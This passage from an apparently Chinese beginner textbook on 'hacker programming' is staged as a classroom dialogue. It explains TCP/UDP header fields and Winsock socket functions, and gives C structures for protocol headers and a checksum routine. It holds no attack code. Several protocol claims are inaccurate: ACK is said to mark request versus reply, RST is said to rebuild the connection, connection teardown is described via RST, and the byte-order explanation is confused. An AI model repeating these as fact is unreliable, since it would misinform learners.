5. 首部长度：表示TCP头的DWORD个数，如果转化为字节数要乘以4，比如TCP头部长为20个字节，则这个值为5；
6. URG：是否使用应急指针，0为不使用，1为使用；
7. ACK：请求／应答状态，0为请求，1为应答；
8. PSH：以最快的速度传输数据；
9. RST：连接复位。首先断开连接，然后重建连接；
10. SYN：同步连接，用来建立连接。如果ACK同时为0，是连接请求，ACK为1表示连接应答；
11. FIN：结束连接。如果ACK同时为0，是结束连接请求，ACK为1表示结束连接应答；
12. 窗口大小：流量控制。发起连接一端提供的窗口大小，窗口大小为字节数。
13. 校验和：用来验证传输的正确。和IP的头部校验和有所不同，这里不仅对头部，还对封包内容进行校验。我们会在后面详细提到如何计算；
14. 紧急指针：当URG为1时紧急指针才有效。紧急指针是一个偏移量，和序号字段相加表示紧急数据最后一个字节的序号。TCP的紧急方式是发送紧急数据的一种方式。”

“SYN、ACK、FIN、RST是通信双方建立TCP连接的必用状态。”

“建立TCP连接的著名三次握手过程如图2.13。”
图2.13

“客户端发送一个SYN包请求连接，如果对方服务开放，就会回应SYN/ACK，客户端再发送一个ACK完成连接；如果对方没有开放服务端口，就会回应RST/ACK，客户端则发送一个RST。”

“而断开TCP连接的过程如图2.14。”
图2.14

“断开连接时，任何一方都可以发送RST给对方，对方回送一个RST/ACK，连接关闭。这些SYN、FIN就是TCP协议中的标志位。”

老师这个时候说道：“我们可以在DOS下输入**netstat -an**命令查看网络通信的连接状态。比如，我的机器上的状态如图2.15。”
图2.15

“大家可以看到，有SYN_SENT连接发送、TIME_WAIT等待、ESTABLISHED连接建立成功等各种状态。这些和协议的规定是一致的。”

“不过一般情况下我们基于应用层开发，是不用去管理这些标志位的设置的，这就是分层的好处，不然传输一个字节都会是很浩大的工程。”

“我们接着看重要的协议。和TCP协议对应的，是UDP协议。”

UDP头部格式，如图2.16。

“UDP是非面向连接、不可靠的传输协议。不可靠是指UDP只管发送，不保证数据报能安全无误地到达最终目的，所以数据的完整需要上层来考虑实现。”

“UDP的协议较简单，包括以下几个字段。”

1. 源端口号：为网络字节顺序，表示源端口；
2. 目的端口号：为网络字节顺序，表示目的端口；
3. UDP长度：UDP头和数据的总长度；
4. 校验和：和TCP校验和一样，不仅对头数据进行校验，还对封包内容进行检验，将在后面详细讲到。
“最后是以太网头部的格式。”

MAC头部格式，如图2.17。
“先是6 byte的目的MAC地址，然后是6 byte的源MAC地址。”

“协议类型字段，0800表示IP数据报，0806表示ARP请求／应答，8035表示RARP请求／应答。再后面就是对应协议类型的数据了。”

## 小结

“好了，”老师说道，“我们将OSI和TCP/IP作个对比吧，结果如图2.18。”
“看起来OSI是更完善一点啊！”小菜们说道，“但大家居然不用它！”

“是的，俗话说得好，出名要趁早。这句话真对。TCP/IP就是比OSI先出道几年，占据了市场应用的绝对优势，成为了事实上的标准！所以大家也要抓紧时间努力啊，争取比同龄人领先10年吧！”

“10年？”小菜们面面相觑。

“立志高一点，行动跟上，大家一定会成功的！”

## 2.2.3 TCP/IP通信流程

“回过头来，我们使用TCP/IP协议进行通信时，就是每层完成自己对应的功能和处理。具体说来，每层依次将上层传来的数据进行封装，加上本层的协议头，然后一层一层往下层，直到物理层。封装过程如图2.19。”
图2.19

“到达物理层后，物理层负责实际物理链路的连接，完成数据的发送和接收。接收方收到数据后，每层又依次解包往上层传，直到应用层得到应用数据。”

老师说道：“这里只是讲解了TCP/IP最基本的东西，大家如果想进一步了解TCP/IP协议簇，可以参看著名的《TCP/IP详解 卷1：协议》。但……可惜啊可惜……”

“怎么又可惜啊？牙痛？”

“不是，我可惜的是书的作者Stevens……Stevens虽然没写过任何黑客程序，但他是世界上最好的黑客！但Stevens英年早逝，天妒英才，故而叹息啊。”

小菜们都睁大了嘴巴：“最好的黑客？他黑了什么啊？”

“他也没黑过什么。其实，媒体的宣传把黑客这个词误解了。黑客的本意是对高深技术充满兴趣，研究掌握并无私公布的人。而真正的黑客精神，就是不断地深入研究技术、创新并共享。从这个意义上讲，任何方面有造诣的人都可以称为黑客，比如对硬件DIY充满兴趣，手动超频追求提升的人，他们也是黑客！”

“哦！原来是这样啊！”

“这也应该是我们追求的目标。希望大家在技术上有什么发现时，一定要公布出来，让别人在你的基础上继续发展。否则，即使你掌握了最新的技术，也会很快过时的。”老师说道。

小菜们点点头。

“好了，这部分比较偏理论，但的确是很重要的东西。当大家遇到问题时，可以多翻翻这部分的内容。科学家们的付出，一定是有道理的。相信我，你们真正进行网络程序开发时，一定会复习这部分内容的！今天讲了这么久，大家都饿了吧，收工，下课，吃饭！下次我们讲解如何使用WinSocket进行实际的编程。”

## 2.3 Windows socket编程

“哇！怎么都这么早啊。”老师一进教室，看见小菜们坐得整整齐齐，吓了一跳。

小菜们坏坏地答道：“因为老师帅得惊天地，泣鬼神，吸引着我们的到来啊。”

老师大汗：“我长得有这么鬼斧神工吗？”

“呵呵，上次不是说要讲实际的编程吗？我们怕来晚了落下就不好理解了，所以特意早点来给老师捧场啊。”

“唉，原来这样啊，我还以为走错教室了。不错，不错，大家真是树立良好学风、开展保先运动的排头兵啊，比我们那个时候勤奋多了。真是长江后浪推前浪，前浪死在沙滩上……”

# 黑客编程入门

## 2.3.1 Socket介绍

**Socket 的独白：**

我是 socket，为自由而生。我不属于任何协议，因为不是 ISO 或 IEEE 创造的，我诞生在加利福尼亚大学伯克利分校（Berkeley）实验室中。他们赋予了我连接不同配置、不同系统计算机通信的能力，他们说：这是为了自由！我做到了。

如果说 IP 是确定通信主机的位置，端口是确定通信主机的服务，那么我——socket，就是确定通信具体的进程了。虽然 IP 和端口可以唯一地区分网络上的每台主机和服务，但是每台主机的同一个程序，可以同时和多台机器通信，比如 QQ、IE，就有可能同时和几台甚至几十台机器连接。所以每一个通信，都要使用我——socket 来标明每一个通信的进程。每次在我的带领下，IP 和端口就会找到它们对应的进程，在它们装卸数据、核对情况的时候，我就会一个人默默地走开，看风的影子，等它们完成招呼我走的时候，我又会像来时一样，一句话也不说地带它们离开。周而复始，行者无疆！

> “让我们回到课堂上来吧，”老师唤回了遐想中的同学们，指着下图说，“下面就是使用 IP 地址和标识符 socket 来标明每一个通信的进程，如图 2.20。”
“其实大家可以把 Socket 理解成一种特殊的文件，对 socket 的操作就相当于对文件的操作。socket 具有一个类似于打开文件的函数调用 socket()，该函数返回一个整型的 socket 描述符，随后的传输数据、接收数据就像文件写入、文件读出一样，都通过该 socket 描述符来实现。”

> “哦，Socket 的目的就是为了便于不同的机器编程通信嘛，”小菜们说道，“那为什么还有一个什么 WinSocket 呢？”

> “还是因为微软是老大嘛，微软在伯克利 Socket 的基础上，提出了 Windows 下编程用的 Socket，即 WinSocket。”

### 2.3.2 Windows Socket 和相关函数

“单从编程的角度看，WinSocket 基本和标准的伯克利 Socket 一致，只有一些稍许的区别。使用 Windows Socket 编程时的常用函数如下。”

#### 一、WSAStartup 函数

原型：

```c
int WSAStartup(
    WORD wVersionRequested,
    LPWSADATA lpWSAData
);
```

使用 Socket 的程序在使用 Socket 之前必须调用 WSAStartup 函数，初始化 Windows Socket DLL，否则后面的任何函数都将调用失败。

参数：

第一个参数 `wVersionRequested` 指明程序请求使用的 Socket 版本，其中高位字节指明副版本、低位字节指明主版本；第二个参数 `lpWSAData` 指向 `WSADATA` 结构的指针，返回系统 Socket 的版本信息。

说明：

当一个应用程序调用 `WSAStartup` 函数时，操作系统根据请求的 Socket 版本来搜索相应的 Socket 库，然后绑定找到的 Socket 库到该应用程序中。以后应用程序就可以调用所请求的 Socket 库中的其它 Socket 函数了。该函数执行成功后返回 0。

例：假如一个程序要使用 2.1 版本的 Socket，那么程序代码如下：

```c
WSADATA wsaData;
DWORD wVersionRequested = MAKEWORD(2,1);
err = WSAStartup(wVersionRequested, &wsaData);
```

#### 二、WSACleanup 函数

原型：`int WSACleanup(void);`，参数：空。

说明：

应用程序在完成对请求的 Socket 库的使用后，要调用 `WSACleanup` 函数来解除与 Socket 库的绑定并且释放 Socket 库所占用的系统资源。该函数一般用在网络程序结束的地方调用。

#### 三、socket 函数

原型：

```c
SOCKET socket(
    int af,
    int type,
    int protocol
);
```

应用程序调用 `socket` 函数来创建一个能够进行网络通信的套接字。

参数：

第一个参数 `af` 指定应用程序使用的通信协议的协议族，对于 TCP/IP 协议族，该参数置 `PF_INET`；

第二个参数 `type` 指定要创建的套接字类型，流套接字类型为 `SOCK_STREAM`，数据报套接字类型为 `SOCK_DGRAM`；

第三个参数 `protocol` 指定应用程序所使用的通信协议。

说明：

该函数如果调用成功就返回新创建的套接字的描述符——`SOCKET` 类型，如果失败就返回 `INVALID_SOCKET`。

套接字描述符是一个整数类型的值。每个进程的进程空间里都有一个套接字描述符表，该表中存放着套接字描述符和套接字数据结构的对应关系。通过套接字描述符就可以找到其对应的套接字数据结构。下面是一个创建套接字的例子：

```c
SOCKET ListenSocket = socket(PF_INET,  // 协议族
    SOCK_STREAM,                      // 流套接字
    IPPROTO_TCP);                     // 通信协议
```

#### 四、closesocket 函数

原型：

```c
int closesocket(
    SOCKET s
);
```

`closesocket` 函数用来关闭一个描述符为 `s` 的套接字。

参数：参数 `s` 表示要关闭的套接字。

说明：

由于每个进程中都有一个套接字描述符表，表中的每个套接字描述符都对应了一个位于操作系统缓冲区中的套接字数据结构，因此有可能有几个套接字描述符指向同一个套接字数据结构。套接字数据结构中专门有一个字段存放该结构的被引用次数，即有多少个套接字描述符指向该结构。当调用 `closesocket` 函数时，操作系统先检查套接字数据结构中的该字段的值，如果为 1，就表明只有一个套接字描述符指向它，因此操作系统就先把 `s` 在套接字描述符表中对应的那条表项清除掉，并且释放 `s` 对应的套接字数据结构；如果该字段大于 1，那么操作系统仅仅清除 `s` 在套接字描述符表中的对应表项，并且把 `s` 对应的套接字数据结构的引用次数减 1。

`closesocket` 函数如果执行成功就返回 0，否则返回 `SOCKET_ERROR`。

#### 五、send 函数

原型：

```c
int send(
    SOCKET s,
    const char FAR *buf,
    int len,
    int flags
);
```

不论是客户端还是服务器的应用程序都用 `send` 函数来向 TCP 连接的另一端发送数据。客户程序一般用 `send` 函数向服务器发送请求，而服务器则通常用 `send` 函数来向客户程序发送应答。

参数：

第一个参数 `s` 指定发送端套接字描述符；

第二个参数 `buf` 指明一个存放应用程序要发送数据的缓冲区；

第三个参数 `len` 指明实际要发送的数据的字节数；

第四个参数 `flags` 一般置 0。

说明：

对于同步 Socket 的 `send` 函数的执行流程，当调用该函数时，`send` 先比较待发送数据的长度 `len` 和套接字 `s` 的发送缓冲区的长度。

如果 `len` 大于 `s` 的发送缓冲区的长度，该函数返回 `SOCKET_ERROR`，发送失败；

如果 `len` 小于或者等于 `s` 的发送缓冲区的长度，那么 `send` 先检查协议是否正在发送 `s` 的发送缓冲中的数据，如果是就等待协议把数据发送完；如果协议还没有开始发送 `s` 的发送缓冲中的数据或者 `s` 的发送缓冲中没有数据，那么 `send` 就比较 `s` 的发送缓冲区的剩余空间和 `len`，如果 `len` 大于剩余空间大小，`send` 就一直等待协议把 `s` 的发送缓冲中的数据发送完；如果 `len` 小于剩余空间大小，`send` 就仅仅把 `buf` 中的数据 copy 到剩余空间里（注意并不是 `send` 把 `s` 的发送缓冲中的数据传到连接的另一端的，而是协议传的，`send` 仅仅是把 `buf` 中的数据 copy 到 `s` 的发送缓冲区的剩余空间里）。

如果 `send` 函数 copy 数据成功，就返回实际 copy 的字节数；如果 `send` 在 copy 数据时出现错误，那么 `send` 就返回 `SOCKET_ERROR`；如果 `send` 在等待协议传送数据时网络断开的话，那么 `send` 函数也返回 `SOCKET_ERROR`。

要注意，`send` 函数把 `buf` 中的数据成功 copy 到 `s` 的发送缓冲的剩余空间里后它就返回了，但是此时这些数据并不一定马上被传到连接的另一端。如果协议在后续的传送过程中出现网络错误的话，那么下一个 Socket 函数就会返回 `SOCKET_ERROR`（每一个除 `send` 外的 Socket 函数在执行的最开始总要先等待套接字的发送缓冲中的数据被协议传送完毕才能继续，如果在等待时出现网络错误，那么该 Socket 函数就返回 `SOCKET_ERROR`）。

#### 六、sendto 函数

原型：

```c
int sendto(
    SOCKET s,
    const char* buf,
    int len,
    int flags,
    const struct sockaddr* to,
    int tolen
);
```

`sendto` 函数用于无连接，比如 UDP 数据的发送。

参数：

第一个参数 `s` 指定发送端套接字描述符；

第二个参数 `buf` 指明一个存放应用程序要发送数据的缓冲区；

第三个参数 `len` 指明实际要发送的数据的字节数；

第四个参数 `flags` 一般置 0；

第五个参数 `to` 为指向目的地址的指针；

第六个参数 `tolen` 为 `to` 的长度。

说明：

因为在无连接的情况下，本地 socket 并没有和远程机器建立连接，所以在发送数据时应指明目的地址，因此 `sendto` 比 `send` 函数多了两个参数，`to` 表示目的机的 IP 和端口，而 `tolen` 一般赋为 `sizeof(struct sockaddr)`。

#### 七、recv 函数

原型：

```c
int recv(
    SOCKET s,
    char FAR* buf,
    int len,
    int flags
);
```

不论是客户还是服务器应用程序都用 `recv` 函数从 TCP 连接的另一端接收数据。

参数：

第一个参数 `s` 指定接收端套接字描述符；

第二个参数 `buf` 指明一个缓冲区，该缓冲区用来存放 `recv` 函数接收到的数据；

第三个参数 `len` 指明 `buf` 的长度；

第四个参数 `flags` 一般置 0。

说明：

对于同步 Socket 的 `recv` 函数的执行流程，当应用程序调用 `recv` 函数时，`recv` 先等待 `s` 的发送缓冲中的数据被协议传送完毕，如果协议在传送 `s` 的发送缓冲中的数据时出现网络错误，那么 `recv` 函数返回 `SOCKET_ERROR`；如果 `s` 的发送缓冲中没有数据或者数据被协议成功发送完毕后，`recv` 先检查套接字 `s` 的接收缓冲区，如果 `s` 接收缓冲区中没有数据或者协议正在接收数据，那么 `recv` 就一直等待，直到协议把数据接收完毕。

当协议把数据接收完毕，`recv` 函数就把 `s` 的接收缓冲中的数据 copy 到 `buf` 中（注意协议接收到的数据可能大于 `buf` 的长度，所以在这种情况下要调用几次 `recv` 函数才能把 `s` 的接收缓冲中的数据 copy 完。`recv` 函数仅仅是 copy 数据，真正的接收数据是协议来完成的）。

`recv` 函数返回其实际 copy 的字节数。如果 `recv` 在 copy 时出错，那么它返回 `SOCKET_ERROR`；如果 `recv` 函数在等待协议接收数据时网络中断了，那么它返回 0。

#### 八、recvfrom 函数

原型：

```c
int recvfrom(
    SOCKET s,
    char* buf,
    int len,
    int flags,
    struct sockaddr* from,
    int* fromlen
);
```

`recvfrom` 函数用于无连接，比如 UDP 数据的接收。

参数：

第一个参数 `s` 指定接收端套接字描述符；

第二个参数 `buf` 指明一个缓冲区，该缓冲区用来存放 `recv` 函数接收到的数据；

第三个参数 `len` 指明 `buf` 的长度；

第四个参数 `flags` 一般置 0；

第五个参数 `from` 为数据包的来源地址；

第六个参数 `fromlen` 为 `from` 的长度。

说明：

因为在无连接的情况下，本地 socket 并没有和远程机器建立连接，所以接收到 UDP 数据时，要通过 `from` 参数来判断来源。

#### 九、bind 函数

原型：

```c
int bind(
    SOCKET s,
    const struct sockaddr FAR* name,
    int namelen
);
```

当创建了一个 Socket 以后，套接字数据结构中有一个默认的 IP 地址和默认的端口号。一个服务程序必须调用 `bind` 函数来给其绑定一个 IP 地址和一个特定的端口号。客户程序一般不必调用 `bind` 函数来为其 Socket 绑定 IP 地址和端口号。

参数：

第一个参数 `s` 指定待绑定的 Socket 描述符；

第二个参数 `name` 指定一个 `sockaddr` 结构，该结构是这样定义的：

```c
struct sockaddr {
    u_short sa_family;
    char sa_data[14];
};
```

`sa_family` 指定地址族，对于 TCP/IP 协议族的套接字，给其置 `AF_INET`。当对 TCP/IP 协议族的套接字进行绑定时，我们通常使用另一个地址结构：

```c
struct sockaddr_in {
    short sin_family;
    u_short sin_port;
    struct in_addr sin_addr;
    char sin_zero[8];
};
```

其中 `sin_family` 置 `AF_INET`，`sin_port` 指明端口号；`sin_addr` 结构体中只有一个唯一的字段 `s_addr`，表示 IP 地址，该字段是一个整数，一般用函数 `inet_addr()` 把字符串形式的 IP 地址转换成 `unsigned long` 型的整数值后再置给 `s_addr`。有的服务器是多宿主机，至少有两个网卡，那么运行在这样的服务器上的服务程序在为其 Socket 绑定 IP 地址时可以把 `htonl(INADDR_ANY)` 置给 `s_addr`，这样做的好处是不论哪个网段上的客户程序都能与该服务程序通信；如果只给运行在多宿主机上的服务程序的 Socket 绑定一个固定的 IP 地址，那么就只有与该 IP 地址处于同一个网段上的客户程序才能与该服务程序通信。我们用 0 来填充 `sin_zero` 数组，目的是让 `sockaddr_in` 结构的大小与 `sockaddr` 结构的大小一致。

说明：

下面是一个 `bind` 函数调用的例子：

```c
struct sockaddr_in saddr;
saddr.sin_family = AF_INET;
saddr.sin_port = htons(8888);
saddr.sin_addr.s_addr = htonl(INADDR_ANY);
bind(ListenSocket, (struct sockaddr *)&saddr, sizeof(saddr));
```

#### 十、listen 函数

原型：`int listen(SOCKET s, int backlog);`

参数：

服务程序可以调用 `listen` 函数使其流套接字 `s` 处于监听状态。处于监听状态的流套接字 `s` 将维护一个客户连接请求队列，该队列最多容纳 `backlog` 个客户连接请求。

说明：

假如该函数执行成功，则返回 0；如果执行失败，则返回 `SOCKET_ERROR`。

#### 十一、accept 函数

原型：

```c
SOCKET accept(
    SOCKET s,
    struct sockaddr FAR *addr,
    int FAR *addrlen
);
```

服务程序调用 `accept` 函数从处于监听状态的流套接字 `s` 的客户连接请求队列中取出排在最前的一个客户请求，并且创建一个新的套接字来与客户套接字创建连接通道，如果连接成功，就返回新创建的套接字的描述符，以后与客户套接字交换数据的是新创建的套接字；如果失败就返回 `INVALID_SOCKET`。

参数：

第一个参数 `s` 指定处于监听状态的流套接字；

操作系统利用第二个参数 `addr` 来返回新创建的套接字的地址结构；

操作系统利用第三个参数 `addrlen` 来返回新创建的套接字的地址结构的长度。

说明：

下面是一个调用 `accept` 的例子：

```c
struct sockaddr_in ServerSocketAddr;
int addrlen;
addrlen = sizeof(ServerSocketAddr);
ServerSocket = accept(ListenSocket, (struct sockaddr *)&ServerSocketAddr,
&addrlen);
```

#### 十二、connect 函数

原型：

```c
int connect(
    SOCKET s,
    const struct sockaddr FAR *name,
    int namelen
);
```

参数：

客户程序调用 `connect` 函数来使客户 Socket `s` 与监听于 `name` 所指定的计算机的特定端口上的服务 Socket 进行连接。如果连接成功，`connect` 返回 0；如果失败则返回 `SOCKET_ERROR`。

说明：

下面是一个例子：

```c
struct sockaddr_in daddr;
memset((void *)&daddr, 0, sizeof(daddr));
daddr.sin_family = AF_INET;
daddr.sin_port = htons(8888);
daddr.sin_addr.s_addr = inet_addr("133.197.22.4");
connect(ClientSocket, (struct sockaddr *)&daddr, sizeof(daddr));
```

#### 十三、inet_addr 函数

原型：`unsigned long inet_addr(const char FAR *cp)`，把形如“xxx.xxx.xxx.xxx”的 10 进制 IP 地址转换为 32 位（按网络字节排列顺序）整数表示方法。

参数：`cp`——指向用“xxx.xxx.xxx.xxx”的 10 进制来表示的 IP 地址字符串的指针，当函数成功调用时返回用 32 位整数表示的 IP 地址（按网络字节排列顺序）。失败时返回 `INADDR_NONE`。

说明：

```c
struct sockaddr_in their_addr;
their_addr.sin_addr.s_addr = inet_addr("127.1.2.3");


```

代码执行后，`their_addr.sin_addr.s_addr` 的值为 `0x0302017f`，其中 `0x7f` 就是 127，而 `0x01`、`0x02`、`0x03` 就是 1、2、3。所以点分式和 16 进制表示是我们自己都可以验证出来的。

### 2.3.3 网络编程细节

“哇噻，这么多啊”，老师拍拍手，说道：“终于介绍好了。”

“哇！老师在哪儿抄的函数说明啊，一大堆一大堆的”，小菜们嚷道，“这可怎么记啊！”

“……这个，socket 和 Windows Socket 都不是俺设计的……是那些制定接口的人早已规定好了啦。无法创造性地说明它们，只能这么引用它们了……”老师回答道，“其实，这些函数大家不要死记，用的时候查 MSDN 就好了。我也不想这么列出来，但为了方便初学者，以及保证课程的完整性，顺便照顾英文不好的同学，就只有这样了……”

“哦，是吗？好辛苦啊……”

“是啊，同学们辛苦了！排版的编辑们更辛苦了！向你们敬礼！向你们致敬！”

“好了，有了这些函数，我们就可以像搭积木一样，把程序搭起来。”老师说道，“但有一些我们应该注意到的细节问题！”

#### 2.3.3.1 主机字节顺序和网络字节顺序

“要进行网络程序编程，首先要注意主机字节顺序和网络字节顺序的区别。”

“在本地 PC 机上，是按照高位存高地址的原则，比如数 `0x12345678`，其中 `0x12` 为最高位，`0x78` 为最低位，根据这个原则，存储的顺序应该为图 2.21。”

“但网络上正好相反，它是按 32 位由低到高地读。就是：首先是 0－7 bit，其次 8－15 bit，然后 16－23 bit，最后是 24－31 bit。这样我们这个例子就会认为是 `0x78563412`。这种传输次序称作 big endian 字节序。由于 TCP/IP 首部中所有的二进制整数在网络中传输时都要求以这种次序，因此它又称作网络字节序。”

“对于我们应用层的数据，这种读法不会改变数据在内存中的位置顺序，是什么，就会发过去什么；接收方也再按主机字节读，数据并不会改变，所以应用层数据不用搭理这个问题。”

“但 IP 首部、TCP 首部里面，我们自己填入的数据，比如 IP、端口等，就都需要转换成网络字节序了。”

“可以使用如下几个函数将主机字节序转换成网络字节序。”
原型：

```c
u_short htons(
    u_short hostshort
);
```

参数：参数 `hostshort` 是主机字节序的无符号短整型。

说明：`htons` 函数的返回值是参数 `hostshort` 转换成网络字节序后的值。

# 黑客编程入门

原型：

```c
u_long htonl(
    u_long hostlong
);
```

参数：参数 hostlong 是主机字节序的无符号长整型。  
说明：htonl 函数的返回值是将参数 hostlong 转换成网络字节序后的值。

“而对应的，将网络字节序转换成主机字节序的函数有以下一些。”

原型：

```c
u_short ntohs(
    u_short netshort
);
```

参数：参数 netshort 是网络字节序的无符号短整型。  
说明：ntohs 函数的返回值是参数 netshort 转换成主机字节序后的值。

原型：

```c
u_long ntohl(
    u_long netlong
);
```

参数：参数 netlong 是网络字节序的无符号长整型。  
说明：ntohl 函数的返回值是参数 netlong 转换成主机字节序后的值。

“举个例子，**u_short port = htons(830);**，参数 830 的十六进制表示是 0x033E，经过 htons() 函数变换后，port 得到的值是 0x3E03，完成了主机地址向网络地址的转变。”

#### 2.3.3.2 IP 地址的 C 语言定义

“要进行网络通信，离不开 IP 地址，但 IP 地址在程序中的表示方法，却不是那么直观简单的事情。”

“我们最习惯的表达法是点分式，比如 127.0.0.1、192.168.3.1 等。该方法便于人们的观察和输入。对于这种表示法，一般定义一个长 16 的字符数组来存放。之所以定义长为 16 的数组，是因为 IP 的最长长度是 4 个 3 位地址加 3 个分隔点，为 3*4+3=15。比如 **char server[16] = "127.0.0.1";**”

“我们前面讲过，IP 协议头部中的 IP 地址只有 32 位，即 4 个字节，存不下点分隔符，而且要求是网络字节顺序。所以 Winsock 以网络字节序将 IP 地址存储在一个 in_addr 结构中。”

“该结构的定义如下。”

```c
struct in_addr
{
    union
    {
        struct { u_char s_b1,s_b2,s_b3,s_b4; } S_un_b;
        struct { u_short s_w1,s_w2; } S_un_w;
        u_long S_addr;
    } S_un;
};
```

“网络字节序的 IP 地址就存在最里面的 u_long 类型的 S_addr 中。比如我们定义了变量 struct in_addr ipaddr，使用起来就是 ipaddr.S_un.S_addr。”

“但敲两次太麻烦了。Windows 定义了一个宏 s_addr 来替代 S_un.S_addr，`#define s_addr S_un.S_addr`。”

“所以我们实际使用时，通常直接使用 ipaddr.s_addr 就好了。但在 VC 的自动提示下看不到 s_addr，只有 S_un，就是因为这只是个宏定义的原因。”

“为了把点分式的 IP 地址转换成网络字节序的 s_addr，就要使用 inet_addr 函数了。这个函数在刚刚的‘Windows Socket 和相关函数’中讲过，大家翻翻笔记吧。”

“IP 地址最常使用的地方是构造 socket 时。需要给 socket 填入协议、端口以及 IP 地址。这些都保存在一个 sockaddr_in 结构中。sockaddr_in 结构的定义如下。”

```c
struct sockaddr_in {
    short sin_family;
    u_short sin_port;
    struct in_addr sin_addr;
    char sin_zero[8];
};
```

参数：

- sin_family 必须是 AF_INET；
- sin_port 是端口号，按照网络字节顺序；
- sin_addr 就是我们刚说的 in_addr 结构的 IP 地址；
- sin_zero[8] 没有用处，只是起填充作用，和 SOCKADDR 结构一样长。

“我们使用时，就应该像下面一样。”

```c
struct sockaddr_in their_addr;
their_addr.sin_family = AF_INET;          /* 协议类型是 INET */
their_addr.sin_port = htons(830);         /* 连接对方 830 端口 */
their_addr.sin_addr.s_addr = inet_addr("127.0.0.1"); /* 连接对方的 IP */
```

#### 2.3.3.3 常用协议头部的 C 语言结构

“当我们进入更深层次的网络编程时，重要协议的头部结构会经常使用，这里把它们的 C 语言表示形式都列出来。”

“首先是 IP 首部。”

```c
typedef struct _iphdr  // 定义 IP 首部
{
    unsigned char h_lenver;         // 4位首部长度+4位IP版本号
    unsigned char tos;              // 8位服务类型TOS
    unsigned short total_len;       // 16位总长度（字节）
    unsigned short ident;           // 16位标识
    unsigned short frag_and_flags;  // 3位标志位
    unsigned char ttl;              // 8位生存时间TTL
    unsigned char proto;            // 8位协议（TCP、UDP或其他）
    unsigned short checksum;        // 16位IP首部校验和
    unsigned int sourceIP;          // 32位源IP地址
    unsigned int destIP;            // 32位目的IP地址
} IP_HEADER;
```

“然后是 TCP 首部。”

```c
typedef struct _tcphdr // 定义TCP首部
{
    USHORT th_sport;      // 16位源端口
    USHORT th_dport;      // 16位目的端口
    unsigned int th_seq;  // 32位序列号
    unsigned int th_ack;  // 32位确认号
    unsigned char th_lenres; // 4位首部长度/6位保留字
    unsigned char th_flag;   // 6位标志位
    USHORT th_win;        // 16位窗口大小
    USHORT th_sum;        // 16位校验和
    USHORT th_urp;        // 16位紧急数据偏移量
} TCP_HEADER;
```

“接着是 UDP 首部。”

```c
typedef struct _udphdr // 定义UDP首部
{
    USHORT uh_sport; // 16位源端口
    USHORT uh_dport; // 16位目的端口
    short uh_len;    // 长度
    USHORT uh_sum;   // 16位校验和
} UDP_HEADER;
```

“另外，ICMP 首部也很常用。”

```c
typedef struct _icmphdr
{
    unsigned char type;     // ICMP类型 0->回送应答 8->回送请求
    unsigned char code;     // 代码
    unsigned short checksum; // 校验和
    unsigned short seq;     // 序号
    unsigned short id;      // 标识符
} ICMP_HEADER;
```

#### 2.3.3.4 校验和的计算

- 对于头结构里面的数据，我们一般直接设定值填充就好了。但校验和例外，它的计算要复杂点，需要在其他数据都填充好后，最后来计算。

##### IP 头部的校验和

IP 首部的检验和字段是根据 IP 首部计算的检验和码。它不对首部后面的数据进行计算，所以比较简单。为了计算一份数据报的 IP 检验和，首先把检验和字段置为 0。然后，对首部中每个 16 bit 进行二进制反码求和（整个首部看成是由一串 16 bit 的字组成），把结果存在检验和字段中。

可以用下面这个函数来计算出校验和。

```c
USHORT checksum(USHORT *buffer, int size)
{
    unsigned long cksum = 0;
    // 每16bit即两个字节的相加
    while (size > 1)
    {
        cksum += *buffer++;
        size -= sizeof(USHORT);
    }

    // 还有一个字节没加上
    if (size)
    {
        cksum += *(UCHAR*)buffer;
    }

    // 如果结果超过16bit，超出部分也要加上
    // 比如前面得到校验和为 0x0023FF31，还要计算 0x0023+0xFF31=0xFF54
    cksum = (cksum >> 16) + (cksum & 0xffff);
    // 如果再次溢出，溢出部分也要相加
    cksum += (cksum >> 16);
    // 取反得到结果
    return (USHORT)(~cksum);
}
```

“代码我加了详细的解释，在 checksum.cpp 的程序，大家调试跟一下就更清楚计算的流程了。”

“当收到一份 IP 数据报后，同样对首部中每个 16 bit 进行二进制反码的求和。由于接收方在计算过程中包含了发送方存在首部中的检验和，因此，如果首部在传输过程中没有发生任何差错，那么接收方计算的结果应该为全 1。如果结果不是全 1（即检验和错误），那么 IP 就丢弃收到的数据报，但是不生成差错报文，由上层去发现丢失的数据报并进行重传。”

TCP 头部和 UDP 头部的校验和计算相似，不仅仅是自己的首部，还有些别的数据。它们对一个伪首部作校验和。伪首部的定义如下。

```c
typedef struct psd_hdr // 定义伪首部
{
    unsigned long saddr;   // 源地址
    unsigned long daddr;   // 目的地址
    char mbz;
    char ptcl;             // 协议类型
    unsigned short tcpl;   // TCP长度
} PSD_HEADER;
```

#### 2.3.3.5 获得本机名、IP 地址以及最好的 IP 地址

“为了获得本机名和本机地址，可以通过 gethostname 和 gethostbyname 两个函数得到。”

原型：

```c
int gethostname(
    char* name,
    int namelen
);
```

参数：  
第一个参数 name 是指向接收本地主机名字的指针。  
第二个参数 namelen 是 name 的长度。

说明：调用这个函数，会将主机的名字存到 name 中。注意要执行了 WSAStartup() 函数后，才能执行成功。

原型：

```c
struct hostent* FAR gethostbyname(
    const char* name
);
```

参数：

参数 name 为要解析的主机名字，可以自己指定，也可以通过 gethostname 函数得到。

说明：返回指向 hostent 的指针。

Hostent 结构的定义如下：

```c
typedef struct hostent {
    char FAR* h_name;
    char FAR FAR** h_aliases;
    short h_addrtype;
    short h_length;
    char FAR FAR** h_addr_list;
} hostent;
```

“得到了 hostent，我们就可以通过分析它，来获得 IP 地址。”老师说道。  
“一个完整的函数如下。”

```c
// 获取本地IP地址
unsigned long GetLocalIP()
{
    char szLocalIP[20] = {0};
    char szHostName[128+1] = "\0";
    hostent *phe;
    int i;
    if( gethostname(szHostName, 128) == 0 ) {
        // Get host adresses
        phe = gethostbyname(szHostName);
        for( i = 0; phe != NULL && phe->h_addr_list[i] != NULL; i++ )
        {
            sprintf(szLocalIP, "%d.%d.%d.%d",
                (UINT)((UCHAR*)phe->h_addr_list[i])[0],
                (UINT)((UCHAR*)phe->h_addr_list[i])[1],
                (UINT)((UCHAR*)phe->h_addr_list[i])[2],
                (UINT)((UCHAR*)phe->h_addr_list[i])[3]);
        }
    }
    else
        return 0;
    return inet_addr(szLocalIP);
}
```

“在该函数中，执行到 gethostname 时，得到 szHostName 为 scu-i394vik616c，就是我的机器的名称啦；然后再执行 gethostbyname 函数，得到指向 hostent 结构的指针。而本机的三个 IP 地址，都可以在 for 循环中分析 hostent 结构的 h_addr_list 而得到。”

